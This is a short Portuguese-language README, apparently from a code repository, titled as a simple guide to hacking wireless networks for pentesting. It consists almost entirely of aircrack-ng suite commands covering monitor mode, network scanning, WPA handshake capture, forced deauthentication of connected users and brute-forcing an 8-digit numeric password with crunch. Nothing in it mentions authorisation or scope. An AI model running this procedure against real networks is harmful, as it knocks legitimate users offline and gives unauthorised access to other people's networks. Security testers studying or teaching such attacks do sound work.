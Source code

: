 # Hackeando redes wireless de forma simples
## Para pentest em redes wireless







Iniciando placa em modo monitor
```bash
sudo airmon-ng start [NOME DA PLACA DE REDE]
```

Verificando redes por perto
```bash
sudo airodump-ng [NOME DA PLACA DE REDE]
```

Verificando a rede especifica
```bash
sudo airodump-ng --bssid [BSSID DA REDE] -c [CANAL DO SINAL] [PLACA DE REDE]
```

Para salvar o handshake em um arquivo basta passar o parametro abaixo no final
```bash
-w log.txt
```

Pode ser demorado D+ esperar alguem logar para capturar o handshake, sendo assim forçaremos a desautenticação dos usuários
```bash
sudo aireplay-ng --deauth 30 -a [BSSID DA REDE] [PLACA DE REDE]
```

Quebrando a senha com o crunch
```bash
crunch 8 8 0123456789 | aircrack-ng [ARQUIVO.cap] -b [BSSID DA REDE] -w-
```
